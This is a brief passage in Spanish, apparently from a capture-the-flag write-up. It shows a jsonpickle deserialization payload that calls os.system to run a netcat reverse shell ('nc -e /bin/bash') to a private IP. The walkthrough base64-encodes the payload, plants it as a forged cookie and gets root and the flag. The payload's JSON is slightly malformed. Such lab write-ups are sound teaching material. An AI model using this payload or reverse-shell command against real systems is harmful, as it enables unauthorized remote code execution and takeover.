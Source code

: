 Con esta información podemos hacer un payload para injectar código y crear una reverse shell.

    {"py/object":"main.Shell", "py/reduce": [{"py/type": "os.system"}, {"py/tuple": [/bin/nc -e /bin/bash 192.168.1.109 1234"]}, null, null, null]}

Lo encriptamos con base64 y la cambiamos por la verdadera.

![img](ej3/cookie_falsa.png)

Y una vez lo enviamos obtenemos el root.

![img](ej3/root.png)

Y podemos ver la flag
